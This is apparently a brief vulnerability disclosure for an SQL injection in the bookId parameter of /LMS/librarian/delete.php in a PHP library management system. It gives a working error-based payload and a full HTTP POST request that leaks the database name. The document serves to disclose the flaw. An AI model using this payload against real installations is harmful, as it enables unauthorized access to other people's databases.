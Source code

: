 # Library Management System v1.0 by kingbhob02 has SQL injection

vendors: https://www.sourcecodester.com/php/15434/library-management-system-qr-code-attendance-and-auto-generate-library-card.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /LMS/librarian/delete.php

Vulnerability location: /LMS/librarian/delete.php, bookId

[+] Payload: delete=&bookId=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--%20 // Leak place ---> bookId

```sql
POST /LMS/librarian/delete.php HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: _ga=GA1.1.1382961971.1655097107
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 79

delete=&bookId=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--%20
```

![image](https://user-images.githubusercontent.com/54017627/180585966-6d3693e3-11c8-4ba9-bc7c-b9628e2754cb.png)

